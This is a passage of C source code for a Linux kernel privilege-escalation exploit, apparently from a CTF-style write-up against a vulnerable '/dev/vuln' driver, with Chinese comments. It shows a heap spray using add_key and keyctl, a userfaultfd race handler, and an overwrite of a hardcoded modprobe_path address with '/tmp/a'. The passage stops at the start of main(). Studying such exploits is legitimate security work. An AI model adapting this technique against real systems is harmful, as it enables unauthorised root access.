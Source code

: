 ```c
  size -= sizeof(struct user_key_payload);

  assert((payload_buf = malloc(size)) != NULL);
  strncpy(payload_buf, payload, size);

  assert((key = syscall_x64(SYS_add_key, "user", "kernel-pwn-key", payload_buf, size,
                        KEY_SPEC_PROCESS_KEYRING)) != -1);

  printf("[spray_addkey] add_key = %x\n", key);
  fflush(stdout);

  return key;
}
void *spray_readkey(key_serial_t key, uint32_t size)
{
  void *payload;

  assert((payload = malloc(size)) != NULL);

  assert(syscall_x64(SYS_keyctl, KEYCTL_READ, key, payload, size, 0) == size);

  return payload;
}

/* 本次exp的符号定义
 */
#define VULN_WRITE		0x1737
#define VULN_READ		0x1738
#define VULN_ALLOC		0x1739
#define VULN_FREE		0x173A

long long *modprobe_path = (long long*) 0xffffffff82651120;
long long fake_modprobe_path = 0x612f706d742f;

typedef struct {
	long long *addr;
	long long val;
} Data;

void *uf_handler(void *page)
{
    Data *data = (Data *)page;
    data->addr = modprobe_path;
    data->val = fake_modprobe_path;
    sleep(5);
    return NULL;
}

void *uf_thread(void *arg)
{
    assert(ioctl(gfd1, VULN_WRITE, gaddr1) == 0);
    return NULL;
}

int main(void)
{

    /* 尝试使用modprobe进行提权
     */
    //int fd;
    //Data data;

    //assert((fd = open("/dev/vuln", O_RDWR)) >= 0);
```